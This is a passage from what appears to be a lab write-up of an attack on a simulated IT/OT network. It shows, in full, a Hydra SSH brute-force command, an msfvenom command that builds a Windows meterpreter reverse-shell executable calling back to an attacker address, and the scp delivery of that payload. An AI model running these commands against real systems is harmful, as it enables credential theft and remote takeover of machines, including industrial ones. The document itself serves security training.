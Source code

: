 With the port-forwarding rules in place, I ran the same scan with Nmap that I ran earlier, which this time effectively scanned the Engineering Station. This revealed that port 22 (SSH protocol) was open. Hydra is a tool in Kali that is specifically designed to exploit SSH, so I used it and the word lists I had generated earlier to crack the Engineering Station’s credentials, which were “engineer” and “Engineer”, respectively, as can be seen in Figure 8.

<pre><code><span style="color:rgba(255, 255, 255, 0.5)">$</span> sudo hydra -L users.txt -P passwords.txt ssh://10.2.51.144 -t 4</code></pre>

#### Figure 8

_Results of Cracking Engineering Station’s Credentials with Hydra_
![Results of Cracking Engineering Station’s Credentials with Hydra](/assets/images/defending-it-ot-network/Fig08-Hydra.png)

At this point I returned to Metasploit and prepared an executable file to send to the target and open a reverse TCP shell to send packets to the Attack Router’s public IP address on port 4444, as shown in Figure 9.

<pre><code><span style="color:rgba(255, 255, 255, 0.5)">$</span> msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp -e generic/none -f exe LHOST=10.2.50.16 LPORT=4444 > ~/shell.exe</code></pre>

#### Figure 9

_Preparing the Malicious Payload for the Revere Shell_

![Preparing the Malicious Payload for the Revere Shell](/assets/images/defending-it-ot-network/Fig09-msfvenom.png)

The router’s port-forwarding rule is designed to send those packets to the Attack PC. Then I sent the file to the Engineering Station via SSH using secure copy:

<pre><code><span style="color:rgba(255, 255, 255, 0.5)">$</span> scp shell.exe engineer@10.2.51.144:C:\shell.exe</code></pre>

Then I returned to Metasploit to set up and activate the listener using the multi/handler exploit, as can be seen in Figure 10. The listener was set to listen on the Attack PC’s IP address (192.168.1.4) on port 4444.
